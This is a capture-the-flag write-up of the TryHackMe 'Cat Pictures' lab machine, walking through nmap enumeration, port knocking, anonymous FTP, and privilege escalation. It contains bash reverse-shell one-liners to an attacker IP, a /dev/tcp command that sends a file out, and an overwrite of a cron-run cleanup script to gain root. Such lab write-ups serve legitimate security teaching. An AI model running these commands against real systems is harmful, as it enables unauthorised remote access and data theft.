 ```yaml
---
title: Cat Pictures
date: 2022-09-13 02:30:00 +0530
category: [Linux, Tryhackme]
tags: [Linux, TryHackMe]

---
```


# Enumeration

Staring with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 23:25 IST
Nmap scan report for 10.10.184.159
Host is up (0.24s latency).

PORT     STATE    SERVICE      VERSION
21/tcp   filtered ftp
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp filtered docker
4420/tcp open     nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4420-TCP:V=7.91%I=7%D=6/6%Time=60BD0C2A%P=x86_64-pc-linux-gnu%r(NU
...[snip]...
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.86 seconds
```
Looking at the results, we have port 22 and 8080 open but 21 being marked as filtered (Firewall?).

### Port 8080
Looking at webpage, it was hosting a *phpbb* fourm. 

![image](https://user-images.githubusercontent.com/94787830/143220912-3e493a84-5145-4180-b76a-c7161e3a77c7.png)

PHPbb is an open source project. Looking at Github repository of PHPbb, we get whole directory structure of the application. Navigating to `/docs/CHANGELOG.html`, we found the version of PHPbb is 3.3.3. Looking for publicly available for this version number, but we found nothing.

Looking at the forum, we have one post which says

![image](https://user-images.githubusercontent.com/43528306/120971731-9ab68800-c78a-11eb-9fde-0667f4077293.png)

#### Port Knocking

The post says Knock,knock!! ...... hmmm. This maybe a hint for *port-knocking*. According to [wikipedia](https://en.wikipedia.org/wiki/Port_knocking),
> Port knocking is method of externally opening ports on firewall by generating a connection attempt on a set of prespecified closed ports.

In simple terms,It means that after knocking on ports in a specific sequence a certain port will open automatically. We can use nmap for this task,
```bash
for i in 1111, 2222, 3333, 4444; do nmap -Pn --max-retries 0 -p $i 10.10.243.236; done
```

The above command will check for specified ports, basically knocking at each specified ports only once and in sequence. Nmap default behaviour is to look for port more than once if it didn't responded. 
We can modify it using `max-retries` flag, setting it to 0.


### FTP
Running nmap scan again 
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 23:25 IST
Nmap scan report for 10.10.184.159
Host is up (0.24s latency).

PORT     STATE    SERVICE      VERSION
21/tcp   open ftp
..[snip]..
```
Great!, FTP service was now open. Trying for anonymous access and we were in. It had a note.txt stating:
```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
  Connect to port 4420, the password is sardinethecat.
    - catlover
```

### PORT 4420
Interacting with this port using nc, prompt us for password. We have a password from previous note file using which,it gives us a basic shell. This shell had limited functionality.
Poking around, we found a file named *runme* in `/home/catlover`. To run this we need a better shell than this. 
```bash
# Victim
echo "bash -i >& /dev/tcp/ourIP/port 0>&1" | bash

# attacker
nc -lvnp 9991
```

We now have a better shell. Running the executable, asks us for another password. Trying the previous one we found but it didn't worked. There was no `strings` binary available on the box,so we need to transfer this runme file to our box.
```bash
# Attacker
nc -lvnp 9991 > runme

# Victim
cat runme > /dev/tcp/ourIP/9991
```
We have the file on our local machine.Running strings on it, found
```
rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
```
Running the file on victim shell with the string we found worked. Waiting for few seconds we have a ssh private key file for `catlover`. Using this, we can ssh into the box.

## ROOT
After gaining the shell, we were already root but we were in a docker-environment.
```bash
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
```

Looking around we saw `.bash_history`. Looking at contents of the file, we found
```bash
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1 (?Revshell)
nano /opt/clean/clean.sh 
```
We need to change the content of `clean.sh` to give us reverse shell.
```bash
root@7546fa2336d6:/opt# echo 'bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"' > clean.sh
```
Set up a listener, and wait for few seconds, we have a shell as root.
ROOT!!!


